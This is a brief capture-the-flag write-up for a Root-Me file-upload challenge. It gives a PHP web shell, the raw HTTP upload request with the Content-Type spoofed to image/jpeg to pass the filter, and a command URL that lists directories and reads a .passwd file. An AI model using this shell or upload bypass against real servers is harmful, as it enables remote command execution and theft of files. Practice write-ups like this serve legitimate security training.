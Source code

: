 # File upload - MIME type

web\_sh.php

```
<?php
    system($_GET(cmd))
?>
```

\->

Request

```
POST /web-serveur/ch21/?action=upload HTTP/1.1
Host: challenge01.root-me.org
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:91.0) Gecko/20100101 Firefox/91.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: multipart/form-data; boundary=---------------------------3117184950153127317638401
Content-Length: 252
Origin: http://challenge01.root-me.org
Connection: close
Referer: http://challenge01.root-me.org/web-serveur/ch21/?action=upload
Cookie: PHPSESSID=6f43055abfcaa2ddeb259bf3a62dd8ee; _ga_SRYSKX09J7=GS1.1.1661768094.26.1.1661768693.0.0.0; _ga=GA1.1.536088429.1661133467
Upgrade-Insecure-Requests: 1

-----------------------------3117184950153127317638401
Content-Disposition: form-data; name="file"; filename="web_sh.php"
Content-Type: application/x-php

<?php
    system($_GET[cmd]);
?>

-----------------------------3117184950153127317638401--
```

\->

modifying

Content-Type: application/x-php

to

Content-Type: image/jpeg

\->

then file is uploaded

\->

http://challenge01.root-me.org/web-serveur/ch21/galerie/upload/6f43055abfcaa2ddeb259bf3a62dd8ee//web\_sh.php?cmd=ls%20-la%20../../../%20;%20cat%20../../../.passwd

then get parameter cmd takes this value.
